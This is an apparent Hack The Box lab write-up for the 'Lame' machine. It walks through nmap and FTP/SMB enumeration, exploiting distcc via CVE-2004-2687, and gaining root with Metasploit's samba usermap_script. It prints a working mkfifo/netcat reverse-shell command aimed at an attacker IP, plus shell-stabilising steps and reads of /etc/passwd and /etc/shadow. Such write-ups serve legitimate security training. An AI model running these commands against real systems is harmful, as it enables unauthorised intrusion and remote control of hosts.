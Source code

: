 # LAME

Nmap scan tells that 21/tcp is open we try to log as *anonymous* and we succeed but there is nothing interesting in there.

We try to vulenrate vsftpd 2.4.8 with metasploit but no session could be created so we move on.


## Unauth enum

* `sudo nmap -sV -p21 -sC -A 10.10.10.10`

Nothing relevant we move on.


## Brute force

* `sudon map --script ftp-* -p 21 10.10.10.3`

We receive 500 ilegal port command and it hangs so nothing to look for.

* Download files

`wget -m --no-passive ftp://anonymous:anonymous@10.10.10.3 `

We get the files but nothing relevant.


## PORT 139/TCP NETBIOS-SSN SAMBA

Since 21/tcp didn't provide anything interesting we proceed to look the other ports, we see that 22/tcp ssh is open but we don't find anything relevant.

After that we found that *139/tcp* was open so we proceed with possible vulnerabilities

[137-138-139-pentesting-netbios](https://book.hacktricks.xyz/v/es/network-services-pentesting/137-138-139-pentesting-netbios)

* └─$ nmblookup -A 10.10.10.3 *nothing*
* └─$ nbtscan 10.10.10.3/30 *nothing*
* sudo nmap -sU -sV -T4 --script nbstat.nse -p139 -Pn -n 10.10.10.3 *closed*

* └─$ nbtscan 10.10.10.3/24  we found that *LEGACY* as a netbios_name but the user is unknown

*Nothing relevant we move on*

## Port 3632 | distcc

[3632-pentesting-distcc](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc)

* msf5 > use exploit/unix/misc/distcc_exec | a metasploit command so we try to make it work.

Finally we found out that **CVE-2004-2687** is a possible vulnerability since we can execute commands from shell using the exploit

[CVE-2004-2687](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

* `python exploit.py -t 10.10.10.3 -p 3632 -c 'whoami'` we get *daemon*

So we proceed the exploitation doing a reverse shell command and listen to it with netcat

```
# We listen for any command
nc -lvnp 4444 

# So we me make the Reverse Shell Command
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 0.0.0.0 4444 >/tmp/f


# script

python exploit.py -t 10.10.10.3 -p 3632 -c 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.16.8 4444 >/tmp/f'

# we succeed on the explotation and we got acces to the machine

```

There is a small issue with the machine, the connection expires so we use nohup to mantain conection

`
nohup python exploit.py -t 10.10.10.3 -p 3632 -c 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.16.8 4444 >/tmp/f' &
`

## Making the Terminal Interactive

To be able to use it like a normal linux terminal (ctrl + c, etc) we do the next

* `script /dev/null -c bash`
* CTRL + Z
* `stty raw -echo; fg`
* `reset xterm`

On our linux machine we take a look at the `stty` size

* stty size

On the target machine we do 

* `stty rows 50 columns 102` Values come from your *stty size*

Then we get info of the system

* `lsb_release -a`

## Elevating privilages

We try to check for the root user

* `su root` Auth failed
* `strings /bin/stock | grep -i "password"`

We find that with `uname -a` we are running on *Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux*

* cat /etc/passwd
* ls -la /etc/passwd
> x means the password is encrypte
* ls -la /etc/shadow

[Privilege Escalation](https://delinea.com/blog/linux-privilege-escalation)


## Metasploit | multi/samba/usermap_script 

Using this script we set the *RHOST* to the Target IP and LHOST to our vpn_ip/local_ip and we get a root access,

* `whoami` -> root
* `cd /root` > `cat root.txt`

We got it!